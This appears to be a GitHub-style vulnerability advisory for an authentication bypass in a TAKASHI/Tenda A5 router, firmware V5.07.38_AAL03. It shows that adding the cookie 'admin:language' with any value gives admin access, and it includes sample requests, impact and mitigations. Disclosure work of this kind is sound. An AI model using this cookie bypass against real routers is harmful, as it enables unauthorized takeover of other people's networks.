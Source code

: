 # TAKASHI Wireless Instant Router and Repeater - Authentication Bypass Vulnerability CVE-2025-29712

## Overview
A critical authentication bypass vulnerability has been identified in the TAKASHI Wireless Instant Router and Repeater (Model A5) running firmware version **V5.07.38_AAL03** with hardware version **V3.0**. This vulnerability allows unauthorized users to gain administrative access due to improper session management.

## Affected Model
- **Model**: A5
- **Manufacturer**: Tenda 
- **Software Version**: V5.07.38_AAL03  
- **Hardware Version**: V3.0  

## Vulnerability Details
The web application does not properly validate session data, allowing attackers to manipulate cookies and bypass authentication. By setting a specific cookie value, an attacker can gain admin-level access without valid credentials.

## Request Comparison
To understand how this vulnerability works, let's compare an unauthenticated request to an authenticated request.

### Unauthenticated Request
```
POST /LoginCheck HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.2.1/login.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://192.168.2.1
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Username=admin&checkEn=0&Password=whatsthepassword
```

### Authenticated Request
```
GET /wireless_basic.asp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.2.1/advance.asp
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en; admin:language=en
Upgrade-Insecure-Requests: 1
Priority: u=4
```

## Key Difference
The key difference between the two requests is the presence of the following cookie:
```
admin:language=en
```

## The Vulnerability
The application trusts the `admin:language` cookie without properly verifying session authentication. By simply adding this cookie with an arbitrary value, an unauthenticated user can gain full administrative access.

### Exploit Mechanics
An attacker can exploit this vulnerability by setting the following cookie:
```
admin:language=<any_value>
```
Where `<any_value>` can be any string, text, or number. As long as the cookie is present, the application will treat the user as an authenticated admin.

## Impact
- Unauthorized users can gain admin-level access without valid credentials.
- Attackers can modify router settings, expose sensitive data, and potentially disrupt network operations.
- No brute-force or credential stuffing is needed—just cookie manipulation.

## Mitigation
To mitigate this issue, the following steps should be taken:
1. **Proper Session Management**: Implement server-side session validation instead of relying on client-side cookies.
2. **Token-Based Authentication**: Use secure session tokens that cannot be forged.
3. **Session Expiry**: Ensure sessions expire and require re-authentication after a set period.
4. **Cookie Integrity Checks**: Validate cookies against an active session in the backend database.


## References
- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [GoAhead Web Server](https://www.embedthis.com/goahead/)

## Disclaimer
This vulnerability report is for educational and research purposes only. The information provided should not be used for malicious activities. Always obtain proper authorization before testing security vulnerabilities on any system.

---

**Contributors**  
- William James Schleppegrell


